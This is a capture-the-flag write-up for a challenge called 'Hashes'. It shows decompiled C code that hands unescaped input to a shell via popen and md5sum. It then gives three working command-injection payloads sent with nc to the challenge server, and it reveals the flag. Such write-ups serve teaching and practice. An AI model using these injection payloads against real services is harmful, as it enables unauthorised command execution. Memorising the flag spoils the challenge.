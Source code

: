 #### Challenge:

Hashes.. `nc 54.225.38.91 1025` [main](./main ":ignore")

---

#### Solution:

- decompile with ghidra

```c
void main(void)
{
  int iVar1;
  char local_459;
  char local_458 [1040];
  undefined local_48 [47];
  char local_19;
  char *local_18;
  FILE *local_10;

  setvbuf(stdout,(char *)0x0,2,0);
  __isoc99_scanf("%32s",local_48);
  sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
  local_10 = popen(&local_459,"r");
  if (local_10 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_458,0x21,local_10);
  local_18 = "3b9aafa12aceeccd29a154766194a964";
  iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
  local_19 = (char)iVar1;
  if (local_19 == '\0') {
    system("cat flag");
  }
  else {
    puts("not good enough");
  }
  return;
}
```

- input of `32` bytes is passed via shell to `md5sum` and compared agains hash `3b9aafa12aceeccd29a154766194a964`, however there is no escaping of input
- we can escape `md5sum` part with comment a inject hash directly, however we need to do it without space and in 32 bytes...

```bash
echo "3b9aafa12aceeccd'>/tmp/f;#" | nc 54.225.38.91 1025
echo "29a154766194a964'>>/tmp/f;#" | nc 54.225.38.91 1025
echo "';cat</tmp/f;#" | nc 54.225.38.91 1025
```

---

<details><summary>FLAG:</summary>

```
securinets{memcmp_turned_out_to_be_shame_shame_shame!!}
```

</details>
<br/>
